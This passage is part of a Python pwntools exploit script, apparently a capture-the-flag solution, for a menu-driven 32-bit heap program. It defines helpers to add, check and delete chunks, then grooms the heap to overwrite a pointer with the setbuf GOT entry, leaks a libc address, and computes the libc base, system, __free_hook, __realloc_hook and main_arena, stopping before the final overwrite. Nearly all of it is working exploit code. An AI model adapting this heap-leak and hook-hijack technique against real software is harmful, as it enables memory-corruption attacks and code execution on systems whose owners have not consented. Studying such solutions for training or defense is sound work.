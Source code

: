 	def rv(a):
		return p.recv(a)
	
	
	def lg(s,addr):
		print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))
	
	def add(size,content,to):
		sla('Select:\n','1')
		sla('Size:\n',str(size))
		sla('Content:\n',content)
		sa('To:\n',to)
	
	def check():
		sla('Select:\n','2')
	
	def delete(idx):
		sla('Select:\n','3')
		sla('Index:\n',str(idx))
	
	def hack():
		raw_input()
		setbuf_got = pwn_elf.got['setbuf']
		fread_offset = libc.symbols['fread']
	
		add(0x48,'a','b\n')			#0
		delete(0)
	
		add(8,'a','b\n')			#1
		
		payload = '\x00'*0x20 + '\x41'
		add(8,'a',payload)			#2
	
		delete(1)
	
		payload = '\x00'*0x2c + p32(0x11)+ p32(setbuf_got)
		add(0x38,payload,'b\n')		#3
		
		check()
		
		ru('To: ')
		rv(8)
		fread_addr = u32(rv(4))
		lg('setbuf',fread_addr)
	
		libc.address = fread_addr - fread_offset
		lg('libc',libc.address)
		system_addr = libc.symbols['system']
		lg('system',system_addr)
	
		#calloc_hook = libc.symbols['__calloc_hook']
		realloc_hook = libc.symbols['__realloc_hook']
		free_hook = libc.symbols['__free_hook']
		#lg('calloc_hook',calloc_hook)
		lg('realloc_hook',realloc_hook)
		lg('free_hook',free_hook)
	
		mainarena = libc.address + 0x1B0780
		lg('mainarena',mainarena)
		top_chunk = mainarena + 0x30
	